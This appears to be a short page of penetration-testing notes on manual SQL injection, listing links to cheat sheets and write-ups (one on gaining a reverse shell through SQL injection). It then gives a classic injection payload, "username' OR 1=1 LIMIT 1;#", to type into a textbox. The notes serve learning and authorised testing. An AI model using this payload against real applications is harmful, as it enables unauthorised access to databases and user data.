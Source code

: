 # Manual Injections

* [https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)
* [https://medium.com/hacker-toolbelt/sqlmap-cheat-sheet-e5a38300b50](https://medium.com/hacker-toolbelt/sqlmap-cheat-sheet-e5a38300b50)
* [http://resources.infosecinstitute.com/sql-truncation-attack/](http://resources.infosecinstitute.com/sql-truncation-attack/)
* [http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/](http://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [https://guide.offsecnewbie.com/5-sql](https://guide.offsecnewbie.com/5-sql)

## Show Only 1 Row at a Time

```bash
# Some databases will not show results if you are trying to get more than 
# 1 row at a time
select * from users where name = 'username' or 1=1 LIMIT 1;#

# this is what you would put into a textbox
username' OR 1=1 LIMIT 1;#
```
